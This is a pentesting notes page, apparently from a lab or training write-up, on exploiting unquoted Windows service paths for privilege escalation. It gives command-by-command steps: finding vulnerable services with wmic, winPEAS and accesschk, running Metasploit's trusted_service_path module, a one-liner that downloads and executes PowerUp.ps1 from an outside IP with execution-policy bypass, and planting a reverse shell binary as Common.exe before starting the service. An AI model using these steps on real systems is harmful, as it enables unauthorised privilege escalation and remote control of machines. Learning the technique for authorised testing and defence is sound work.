 # Unquoted Service Path

Executables in Windows can be run without using their extension \(e.g. “whoami.exe” can be run by just typing “whoami”\). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

 To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## detecting unquoted service paths

### manual method

```text
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows \(since by default there is no such service which has spaces and is unquoted in this folder\). Also, we need to exclude those services that are enclosed within the double quotes.

### automated with metasploit

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```text
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### automated using powerup

```text
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### automated with winPEAS

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%28100%29.png)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```text
sc qc unquotedsvc
```

![](../../../../.gitbook/assets/image%20%28101%29.png)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```text
accesschk.exe -ucqv user unquotedsvc
```

![](../../../../.gitbook/assets/image%20%2877%29.png)

we have start permission, now check for write permission on each directory path to the binary file:

```text
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```text
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](../../../../.gitbook/assets/image%20%2875%29.png)

it looks like all the members of the builtin\users group have RW \(read/write\) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. \(because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```text
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start unquotedsvc
```

![](../../../../.gitbook/assets/image%20%2897%29.png)









